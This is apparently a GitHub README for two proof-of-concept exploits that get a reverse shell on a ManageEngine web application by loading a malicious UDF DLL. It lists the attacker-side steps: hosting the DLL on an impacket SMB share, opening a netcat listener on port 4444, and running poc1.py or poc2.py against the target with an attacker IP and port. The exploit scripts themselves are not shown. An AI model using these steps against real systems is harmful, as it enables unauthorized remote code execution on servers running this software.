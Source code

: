 # UDF Reverse Shell

## How to use

### poc1.py
1. Start a SMB server and host a share in the same directory as the `udf_rev_shell.dll` file:
```bash
impacket-smbserver -smb2support test .
```

3. Start a netcat listener:
```bash
nc -lnvp 4444
```

3. Run the proof of concept (poc1.py) using Python2 and specify the target ManageEngine web application and listener parameters:
```bash
python2 poc1.py https://manageengine:8443 192.168.45.211 4444
```


### poc2.py
1. Start a netcat listener:
```bash
nc -lnvp 4444
```

2. Run the proof of concept (poc2.py) using Python2 and specify the target ManageEngine web application and listener parameters. Ensure that the `udf_rev_shell.dll` file is in the same workign directory as `poc2.py`:
```bash
python2 poc2.py https://manageengine:8443 192.168.45.211 4444
```
